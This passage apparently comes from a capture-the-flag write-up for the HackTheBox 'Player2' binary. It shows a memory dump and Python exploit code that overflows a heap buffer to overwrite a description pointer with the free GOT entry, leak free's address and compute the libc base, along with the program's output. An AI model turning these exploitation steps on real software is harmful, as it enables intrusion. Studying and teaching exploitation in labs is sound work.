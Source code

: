     0xf2f300:       0x766f206562206f74      0x6574746972777265  # "to be overwritten"
    0xf2f310:       0x0000000000e67e6e      0x0000000000020cf1
    0xf2f320:       0x0000000000000000      0x0000000000000000
    

That will work nicely. I just need to change “overflow” to a long enough
buffer such that it overwrites the value 0xf2f300 at address 0xf2f2f0 with the
`free` GOT address from earlier.

Now I’ll update my Python:

    
    
    new_config('dummy1', 0x18, 'to be deleted')
    new_config('leak', 0x18, 'to be overwritten')
    del_config(0)
    new_config(b'A'*0x50 + p64(0x602f78), 0x18, 'B'*0x16)
    print(print_config(1))
    pdb.set_trace()
    

The third config will go into slot 0, and the description will overwrite the
pointer to the description in slot 1 with the pointer to `free`.

    
    
    root@kali# python3 ./pwn_protobs.py 
    [+] Starting local process './Protobs': pid 17356
    b'  [ Game                ]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx/`\n  [ Contrast            ]: 1094795585\n  [ Gamma               ]: 1094795585\n  [ Resolution X-Axis   ]: 1094795585\n  [ Resolution Y-Axis   ]: 1094795585\n  [ Controller          ]: 1094795585\n  [ Description         ]: \xd0\x91\xd3$\xe0\x7f\n\n'
    --Return--
    > /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(43)<module>()->None
    -> pdb.set_trace()
    (Pdb) 
    

It worked! In the description field there’s just some non-ascii stuff that is
the address of `free`. I can clean up how I print a bit and add some math to
calculate the libc base address:

    
    
    new_config('dummy1', 0x18, 'to be deleted')   # slot 0
    new_config('leak', 0x18, 'to be overwritten') # slot 1
    del_config(0)
    new_config(b'A'*0x50 + p64(Protobs.got["free"]), 0x18, 'B'*0x16) # slot 0
    leaked_free = u64(print_config(1)[-8:-2].ljust(8, b"\x00"))
    print(f'[+] Leaked free: 0x{leaked_free:x}')
    libc_base = leaked_free - libc.sym["free"]
    print(f'[+] libc base address: 0x{libc_base:x}')
    
    
    
    root@kali# python3 ./pwn_protobs.py 
    [+] Starting local process './Protobs': pid 17471
    [+] Leaked free: 0x7fdf906c81d0
    [+] libc base address: 0x7fdf9062f000
    